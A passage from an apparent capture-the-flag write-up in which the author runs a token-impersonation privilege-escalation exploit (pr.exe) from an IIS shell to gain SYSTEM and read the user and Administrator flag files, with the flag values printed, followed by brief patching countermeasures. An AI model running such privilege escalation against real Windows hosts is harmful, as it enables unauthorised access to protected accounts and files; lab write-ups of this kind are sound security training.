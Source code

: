 From there, I was able to grab the `user.txt` flag:

```
c:\windows\system32\inetsrv>c:\Windows\Temp\pr.exe "type \"C:\Documents and Settings\Harry\Desktop\user.txt\""
c:\Windows\Temp\pr.exe "type \"C:\Documents and Settings\Harry\Desktop\user.txt\""
/xxoo/-->Build&&Change By p
/xxoo/-->This exploit gives you a Local System shell
/xxoo/-->Got WMI process Pid: 2756
begin to try
/xxoo/-->Found token SYSTEM
/xxoo/-->Command:type "C:\Documents and Settings\Harry\Desktop\user.txt"
bdff5ec67c3cff017f2bedc146a5d869
```

And the `root.txt` flag:

```
c:\windows\system32\inetsrv>c:\Windows\Temp\pr.exe "type \"C:\Documents and Settings\Administrator\Desktop\root.txt\""
c:\Windows\Temp\pr.exe "type \"C:\Documents and Settings\Administrator\Desktop\root.txt\""
/xxoo/-->Build&&Change By p
/xxoo/-->This exploit gives you a Local System shell
/xxoo/-->Got WMI process Pid: 2756
begin to try
/xxoo/-->Found token SYSTEM
/xxoo/-->Command:type "C:\Documents and Settings\Administrator\Desktop\root.txt"
9359e905a2c35f861f6a57cecf28bb7b
```

## Countermeasures

* Update to the latest version of Windows Server currently available.
* Update to the latest version of IIS currently available.
